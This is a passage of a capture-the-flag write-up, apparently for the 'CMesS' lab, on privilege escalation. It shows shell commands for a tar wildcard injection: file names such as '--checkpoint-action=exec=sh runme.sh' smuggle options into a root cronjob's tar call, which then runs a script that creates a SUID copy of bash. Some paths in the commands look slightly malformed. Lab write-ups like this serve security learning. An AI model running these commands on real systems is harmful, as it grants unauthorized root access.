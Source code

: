 - so now we can finally exploit the cronjob using a wildcard, now our cronjob runs after every 2 minutes
- what the cronjob command does is to change directory to the backup directory and then archive all its files in a gzip archive in the tmp directory

![](assets/CMesS_assets/Pasted%20image%2020230521135929.png)

- we can view the contents of the file in the backup directory know as note

![](assets/CMesS_assets/Pasted%20image%2020230521162642.png)

- so now that we understand what is happening,  we will run the following commands consecutively

```shell
andre@cmess:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh
andre@cmess:~$ chmod +x runme.sh 
andre@cmess:~$ touch /home/andre/backup--checkpoint=1
andre@cmess:~$ touch /home/andre/backup--checkpoint-action=exec=sh\ runme.sh
```
- the first command just saves the command in a file runme.sh, what the command does is to copy the bash file to tmp folder and then add suid permission to that bash file, so we can just run `/tmp/bash -p` and get a shell
- then we run the rest of the commands which exploit the `tar` command
- after executing the commands, we wait a while for the cronjob to run and when we view the /tmp folder, we can see the bash file

![](assets/CMesS_assets/Pasted%20image%2020230521152449.png)
